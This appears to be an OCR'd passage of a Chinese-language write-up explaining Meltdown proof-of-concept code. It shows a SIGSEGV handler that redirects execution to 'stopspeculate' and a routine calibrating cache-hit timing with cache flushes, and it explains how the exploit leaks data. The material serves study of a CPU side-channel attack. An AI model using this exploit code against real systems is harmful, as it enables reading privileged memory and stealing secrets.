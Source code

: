  ```

	ucontext->uc_mcontext.gregs[REG_EIP] = (unsigned long)stopspeculate;

#endif

	return;

}

```

上述代码注册了处理SIGSEGV信号的程序，使得段错误出现后转到stospeculate处（在asm代码的末尾）继续执行
因此，rax被保留在进程中，成为漏洞泄露的地方

```
set_cache_hit_threshold(void)

{

	long cached, uncached, i;



	if (0) {

		cache_hit_threshold = 80;

		return;

	}



	for (cached = 0, i = 0; i < ESTIMATE_CYCLES; i++)

		cached += get_access_time(target_array);



	for (cached = 0, i = 0; i < ESTIMATE_CYCLES; i++)

		cached += get_access_time(target_array);



	for (uncached = 0, i = 0; i < ESTIMATE_CYCLES; i++) {

		_mm_clflush(target_array);

		uncached += get_access_time(target_array);

	}



	cached /= ESTIMATE_CYCLES;

	uncached /= ESTIMATE_CYCLES;



	cache_hit_threshold = mysqrt(cached * uncached);


```